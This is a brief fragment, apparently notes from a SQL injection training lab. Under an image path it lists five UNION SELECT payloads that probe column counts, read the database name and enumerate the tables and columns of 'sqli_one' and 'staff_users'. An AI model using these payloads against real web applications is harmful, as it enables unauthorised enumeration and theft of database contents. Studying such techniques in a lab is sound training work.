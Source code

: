 `1 UNION SELECT 1,2,3`

`0 UNION SELECT 1,2,3`

`0 UNION SELECT 1,2,database()`

`0 UNION SELECT 1,2,group_concat(table_name) FROM information_schema.tables WHERE table_schema = 'sqli_one'`

`0 UNION SELECT 1,2,group_concat(column_name) FROM information_schema.columns WHERE table_name = 'staff_users'`








































